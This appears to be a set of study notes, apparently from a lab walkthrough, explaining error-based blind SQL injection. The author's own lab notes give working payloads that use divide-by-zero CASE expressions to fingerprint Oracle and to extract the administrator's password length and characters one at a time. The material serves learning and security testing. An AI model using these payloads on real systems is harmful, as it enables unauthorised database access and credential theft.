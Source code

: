 ### Error-based SQL injection
 Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts. The possibilities depend on the configuration of the database and the types of errors you're able to trigger:

 - You may be able to induce the application to return a specific error response based on the result of a boolean expression. You can exploit this in the same way as the conditional responses we looked at in the previous section. For more information, see Exploiting blind SQL injection by triggering conditional errors.
 - You may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into visible ones. For more information, see Extracting sensitive data via verbose SQL error messages.



### Exploiting blind SQL injection by triggering conditional errors

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.




### Exploiting blind SQL injection by triggering conditional errors - Continued

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
```
```
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

  - With the first input, the CASE expression evaluates to 'a', which does not cause any error.
  - With the second input, it evaluates to 1/0, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time:

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

> Note
> There are different ways of triggering conditional errors, and different techniques work best on different database types. For more details, see the SQL injection cheat sheet.


To know type of databse use it

```
'||(SELECT '')||'
```

if get 500 , we any payload like this 

```
'||(SELECT '' FROM dual)||'
```

if get 200 , so this is Oracle



```
'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

this condution for test error based


#### For guess number of char' password 

```
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### For guess on chars's password

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)>'1' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

